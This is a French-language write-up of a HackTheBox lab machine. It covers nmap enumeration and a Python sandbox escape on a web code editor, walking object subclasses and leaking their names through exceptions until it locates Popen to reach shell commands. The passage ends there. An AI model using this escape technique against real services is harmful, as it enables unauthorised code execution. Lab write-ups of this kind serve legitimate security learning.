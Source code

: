 ## Enumération

- **IP**
```
10.10.11.62
```

- **Nmap**
```
nmap -sC -sV -A 10.10.11.62
```

![[nmap.png]]On trouve deux port ouverts dont le port **5000** avec le service **http**. On va donc essayer d'accéder au site web via : `http://10.10.11.62:5000`

![[code-htb.png]]

On a donc un éditeur de code python. L'application web ne laisse pas faire `import` ou `eval` mais on sait qu'une **application fait echo aux éxceptions**. On peut donc faire sortir une erreur  pour savoir un peu ce qui se passe en dessous:

```
print((()).__class__.__bases__[0].__subclasses__())
```

![[Capture du 2025-06-10 20-26-28.png]]

l a craché un buffet entier de classes. Plus de 400 sous-classes. Quelque part là dedans , on doit chercher le `Popen`. Pourquoi? Parce que Popen vit dans le module de sous-processus, et c'est comme ça qu'on posera les commandes Shell.

Ici, on n'a pas la fonction `.index()` donc on peut faire une recherche. On va donc essayer de détourner la logique du programme jusqu'à une réussite avec des **obfuscations Python

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[100].__name__)
```
!! Echec !!

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[200].__name__)
```
!! Echec !!

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)
```
!! **C'est là que se trouve le Popen** !!

![[popen.png]]

